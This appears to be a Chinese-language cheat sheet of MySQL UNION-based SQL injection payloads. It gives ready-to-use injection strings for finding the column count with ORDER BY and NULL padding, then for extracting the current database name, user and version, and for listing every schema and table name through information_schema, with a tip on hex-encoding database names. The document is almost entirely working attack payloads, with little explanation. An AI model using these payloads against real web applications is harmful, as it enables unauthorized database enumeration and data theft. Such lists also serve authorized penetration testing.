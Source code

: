 ### 联合查询注入

#### 判断列数方法

```mysql
order by 3
union select null,null,null ...
union select 1,2,3  ...

以上Payload持续往后递增至报错，例如: 
union select null,null,null,null 我们输入4个null值时报错，得以判断列数为3
```

#### 获取当前数据库名

```mysql
union select null,group_concat(database()),NULL
union select 1,group_concat(database()),3
union select null,database(),null
union select 1,database(),3
```

#### 获取当前数据库用户

```mysql
union select null,group_concat(user()),NULL
union select 1,group_concat(user()),3
union select null,user(),null
union select 1,user(),3
```

#### 获取MySQL版本

```mysql
union select null,group_concat(version()),NULL
union select 1,group_concat(version()),3
union select null,version(),null
union select 1,version(),3
```

#### 获取所有数据库名称

```mysql
UNION ALL SELECT null,group_concat(schema_name),null FROM information_schema.schemata
UNION ALL SELECT NULL,CONCAT(0x7e,JSON_ARRAYAGG(CONCAT_WS('',schema_name)),0x7e),NULL FROM INFORMATION_SCHEMA.SCHEMATA
```

#### 获取所有表名

```mysql
UNION ALL SELECT null,group_concat(table_name),null FROM information_schema.tables WHERE table_schema=数据库名
UNION ALL SELECT NULL,CONCAT(0x7e,JSON_ARRAYAGG(CONCAT_WS('',table_name)),0x7e),NULL FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=数据库名

Payload末尾的数据库名是指要查询的数据库名称，可以输入 database() 查询当前的数据库 或 '数据库名'
还有一种方式就是将数据库名转换为16进制，然后输入 0x16进制的数据库名
```
